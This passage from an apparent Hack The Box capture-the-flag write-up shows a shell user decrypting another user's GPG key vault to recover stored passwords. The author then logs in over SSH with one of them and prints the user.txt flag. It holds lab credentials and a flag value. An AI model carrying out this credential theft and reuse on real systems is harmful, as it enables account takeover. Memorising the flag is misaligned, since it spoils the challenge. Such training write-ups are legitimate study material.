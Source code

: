 
GPG is used to list the keys and the private key is then used to decrypt the `/home/hish/backup/keyvault.gpg` Key Vault.  This reveals some passwords for Hish and in particular the password `marineSPm@ster!!` for `ENVIRONMENT.HTB`.

```
www-data@environment:/tmp/fc$ gpg --homedir . --list-secret-keys
gpg --homedir . --list-secret-keys
/tmp/fc/pubring.kbx
-------------------
sec   rsa2048 2025-01-11 [SC]
      F45830DFB638E66CD8B752A012F42AE5117FFD8E
uid           [ultimate] hish_ <hish@environment.htb>
ssb   rsa2048 2025-01-11 [E]

www-data@environment:/tmp/fc$ gpg --homedir . --decrypt /home/hish/backup/keyvault.gpg
<-homedir . --decrypt /home/hish/backup/keyvault.gpg
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

### 💰 Post Exploitation

I SSH to `environment.htb` with user `hish` using the password `marineSPm@ster!!` and log in successfully.

```
fcoomans@kali:~/htb/environment$ ssh hish@environment.htb
hish@environment.htb's password:
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
Last login: Mon Jul 21 03:12:43 2025 from ATTACKER_IP
hish@environment:~$ id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

#### 🚩 user.txt

Hish holds the `user.txt` flag.

```
hish@environment:~$ cat /home/hish/user.txt
2c6e4af8a6494303506b024bb6327cf4
```
